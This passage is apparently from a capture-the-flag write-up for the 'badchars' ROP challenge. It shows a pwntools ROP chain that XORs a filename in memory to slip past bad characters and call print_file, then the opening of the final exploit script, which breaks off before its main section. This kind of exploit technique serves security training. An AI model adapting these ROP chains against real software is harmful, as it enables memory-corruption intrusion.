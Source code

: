 ```python
    p64(xor_byte),                     # r14
    p64(string_address),               # r15
    p64(mov_qword_ptr_r13_r12)
]

# XOR again the filename after pass all checks

for i in range(len(filename)):
    payload += [
        p64(pop_r14_pop_r15),
        p64(xor_byte),
        p64(string_address + i),
        p64(xor_byte_ptr_r15_r14b),
    ]

# Call the print_file with correct filename

payload += [
    p64(pop_rdi),
    p64(string_address),
    p64(print_file)
]
```

So the final exploit will be:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template badchars
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'badchars')

context.terminal = ["tmux", "splitw", "-h"]

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
b *(&pwnme+261)
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
```